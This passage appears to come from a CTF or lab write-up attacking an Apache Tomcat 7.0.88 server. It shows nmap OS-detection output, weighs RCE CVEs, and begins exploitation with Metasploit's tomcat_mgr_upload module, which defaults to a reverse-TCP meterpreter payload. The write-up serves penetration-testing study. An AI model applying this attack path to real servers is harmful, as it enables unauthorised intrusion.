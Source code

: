 ```
Nmap done: 1 IP address (1 host up) scanned in 109.18 seconds
```
`nmap` returns only a DOS vulnerability which is not interesting in our case.
### Apache Tomcat CVEs
Let's look at the CVEs. It seems to have an important [list of vulnerabilities](https://www.cybersecurity-help.cz/vdb/apache_foundation/apache_tomcat/7.0.88/), specially two RCEs: [CVE-2020-9484](https://www.cybersecurity-help.cz/vulnerabilities/28158/) and [CVE-2019-0232](https://www.cybersecurity-help.cz/vulnerabilities/18236/).
The second vulnerability is only exploitable on Windows. Let's use nmap to check the target OS:
```
$sudo nmap -O -oN nmap_os 10.129.136.9
[sudo] password for x5450: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-03 19:13 CEST
Nmap scan report for 10.129.136.9
Host is up (0.020s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.06 seconds
```
It is very likely that the OS is Windows and so make this vulnerability exploitable. Moreover, it seems to exist an MSF exploit available on [exploit-db](https://www.exploit-db.com/exploits/47073). However, it requires a CGI script to exploit the vulnerability.
The first vulnerability is on file upload and there is no upload form is what we list before.
### Deprecated API
Another interesting issue could be the examples using the deprecated API, but I have not been able to find any exploitable vulnerability.
### Manager application
It is possible to upload a WAR application on the server and MetaSploit has an exploit for that: `exploit/multi/http/tomcat_mgr_upload`.
## Exploitation
Let's try to exploit the server by uploading an application using MetaSploit module `exploit/multi/http/tomcat_mgr_upload`:
```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> info

       Name: Apache Tomcat Manager Authenticated Upload Code Execution
     Module: exploit/multi/http/tomcat_mgr_upload
   Platform: Java, Linux, Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2009-11-09

Provided by:
  rangercha
```